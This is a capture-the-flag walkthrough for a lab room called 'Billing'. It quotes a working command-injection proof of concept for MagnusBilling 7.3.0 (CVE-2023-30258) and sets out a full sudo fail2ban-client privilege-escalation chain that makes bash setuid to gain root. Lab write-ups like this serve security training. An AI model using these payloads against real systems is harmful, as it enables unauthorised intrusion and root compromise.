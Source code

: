 # Billing

First look at the text with challenge

<pre>
Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.
</pre>

No bruteforcing


Nmap scan
<pre>nmap -A -p- IP </pre>
![scan](img/billing-scan.png)

We can see mysql and asterisk ports are open.

First we will look at the website.

![web](img/billing-website.png)

I didn't find any problem here. SQL injection, creds leak.

<pre>gobuster dir -u http://IP/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r</pre>
![subdomain](img/billing-subdomain.png)

We can find a lot of directories, but i found nothing in them

Let's search for public exploits. Since bruteforcing creds ins't in scope of this room.

There is one interesting in [ExploitDB](https://www.exploit-db.com/exploits/52170)
<pre># Exploit Title: MagnusSolution magnusbilling 7.3.0 - Command Injection
# Date: 2024-10-26
# Exploit Author: CodeSecLab
# Vendor Homepage: https://github.com/magnussolution/magnusbilling7
# Software Link: https://github.com/magnussolution/magnusbilling7
# Version: 7.3.0 
# Tested on: Centos
# CVE : CVE-2023-30258


# PoC URL for Command Injection

http://magnusbilling/lib/icepay/icepay.php?democ=testfile; id > /tmp/injected.txt

Result: This PoC attempts to inject the id command.

[Replace Your Domain Name]</pre>

The plus is, it exist in msfconsole.
![img](img/billing-exploit.png)

Let's try that
![img](img/billing-nice.png)

It works!

let's use basic shell and find the user.txt flag.

<pre>
shell

find / -name user.txt 2>/dev/null
</pre>

And we have the flag!

### Let's escalate our privilages

<pre>sudo -l</pre>

<pre>
Matching Defaults entries for asterisk on ip-10-10-130-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-130-121:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
</pre>

We can see we can run this script `/usr/bin/fail2ban-client` with sudo privilages.

Again we can search if we can abuse this. And yes we can there exist an article to escalate to root. [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/)

<pre>
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
</pre>
![img](img/billing-root.png)

We can again locate the `root.txt` file and get it.

<pre>find / -name root.txt 2>/dev/null</pre>